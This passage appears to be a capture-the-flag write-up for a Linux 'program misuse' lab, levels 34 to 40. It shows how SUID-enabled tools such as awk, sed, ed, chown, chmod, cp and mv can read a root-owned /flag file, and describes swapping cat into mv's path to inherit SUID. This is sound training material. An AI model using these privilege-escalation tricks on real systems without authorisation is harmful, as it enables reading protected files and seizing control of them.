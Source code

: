 ### Level 34 - awk

```bash
$ awk 'BEGIN { while (getline < "/flag") print }'
```

### Level 35 - sed

```bash
$ sed -n 'p' /flag
```

- `-n` suppresses automatic printing of pattern space.
- `'p'` specifies the pattern to match, which effectively prints every line.
- `/flag` is the file you want to read.

### Level 36 - ed

Open the file with `ed` editor and write `p` to print its content.

```bash
$ ed /flag
56
p
```

<div align="center">
    <h1> Permissions </h1> 
</div>

### Level 37 - chown

Change the ownership of `/flag` from `root` to `hacker` so we are able to read it.

```bash
$ chown hacker /flag && cat /flag
```

### Level 38 - chmod

Change the files mod bits to `read` so we are able to read it.

```bash
$ chmod +r /flag && cat /flag
```

### Level 39 - cp

```bash
cp --backup --no-preserve=all /flag ./flag.txt && cat flag.txt
```

### Level 40 - mv

This one was a bit tricky. First of all we run the program to set `SUID` to `/usr/bin/mv`. Then, we `mv` the `/usr/bin/cat` to `/usr/bin/mv`. After that, we run the program again to set the `SUID`, but now it sets the `sticky bit` to `cat` instead of `mv`.
